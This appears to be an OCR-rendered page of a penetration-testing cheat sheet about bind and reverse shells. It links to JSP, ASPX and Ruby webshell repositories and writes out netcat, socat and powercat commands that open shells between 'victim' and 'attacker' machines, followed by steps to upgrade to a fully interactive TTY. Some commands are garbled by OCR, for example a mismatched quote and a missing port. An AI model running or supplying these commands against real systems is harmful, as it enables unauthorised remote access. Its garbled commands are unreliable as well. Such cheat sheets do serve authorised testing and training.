 ```

**4: JSP
Reverse Shell:** https://github.com/tennc/webshell/blob/master/jsp/jsp-
reverse.jsp

**5: ASPX
Reverse Shell:** https://github.com/borjmz/aspx-reverse-
shell/blob/master/shell.aspx

**6: Others
Ruby reverse shell:** https://github.com/secjohn/ruby-
shells/blob/master/revshell.rb
**Ruby bind shell:** https://github.com/secjohn/ruby-shells/blob/master/shell.rb
```




# Bind Shell

2021 年 8 月 2 日 22:
**1: netcat**
Victim: **nc -nlvp -e /bin/bash** or **nc -nlvp -e "cmd.exe"**
Kali: **nc 10.10.10.10 4444**

**2: socat**
Target (Linux): socat tcp-l:4444 exec:"bash -li'
Target (Windows): socat tcp-l:4444 exec:powershell.exe,pipes
Attacker: socat tcp:10.10.10.10:4444 -

**3: powercat**
Victim: powercat -l -p 4444 -e cmd.exe
Kali: nc 10.10.10.10 4444

**4: Others**
reverse-ssh




# Reverse Shell

**0: Spawn a TTY shell**
python(3) -c 'import pty;pty.spawn("/bin/bash")'
**socat**

**1: netcat**
Attacker: **nc -nlvp 4444**
Victim: **nc 10.10.10.20 4444 -e /bin/bash**
Victim: **nc -c bash/sh 10.10.10.20 4444**
Upgrade to **fully interactive shell** : (Won't work with **rlwrap** )
a. **export TERM=xterm,**
b. **python -c 'import pty;pty.spawn("/bin/bash")'**
c. **CTRL+Z,**
d. **stty raw -echo;fg**
e. **[Enter]**
f. However, **SSH** is still **better** than it
